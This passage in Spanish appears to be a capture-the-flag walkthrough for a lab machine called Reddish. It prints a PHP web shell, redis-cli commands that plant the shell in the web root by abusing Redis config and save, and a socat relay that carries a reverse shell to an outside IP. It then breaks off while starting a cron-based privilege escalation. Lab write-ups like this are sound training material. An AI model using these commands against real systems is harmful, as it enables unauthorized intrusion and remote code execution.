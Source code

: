 Si nos dirigimos a esa ruta directamente, nos dira que no tenemos permiso para acceder a ese recurso:

![](/assets/images/Reddish/Forbidden-Redis-Page.png)

## Reverse Shell con socat

Una vez sabemos que se está ejecutando Redis, aprovechamos esta vulnerabilidad para cargar un archivo PHP que nos permitió ejecutar una reverse shell, este es el archivo PHP:

    <?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    ?>

Haciendo uso de la ruta anteriormente obtenida, subimos el archivo PHP a través de Redis con el siguiente comando:

    redis-cli -h 127.0.0.1 flushall
    cat cmd.php | redis-cli -h 127.0.0.1 -x set crackit
    redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
    redis-cli -h 127.0.0.1 config set dbfilename "cmd.php"
    redis-cli -h 127.0.0.1 save

Para completar la explotación, utilizamos socat para establecer una reverse shell en la máquina que corría Node-RED. Este paso se llevó a cabo configurando un túnel inverso que conectaba nuestra máquina local con la máquina de Node-RED, permitiéndonos ejecutar comandos remotos.

    ./socat TCP-LISTEN:4545,fork tcp:10.10.14.6:5555 &

## Escalada de Privilegios
### Explotación de la tarea cron 'Backup.sh'
Durante la exploración del sistema, se identificó un script cron ejecutado como root, /backup/backup.sh, que se ejecutaba periódicamente.

![](/assets/images/Reddish/Backup-sh.png)

![](/assets/images/Reddish/Backup-sh-Content.png)
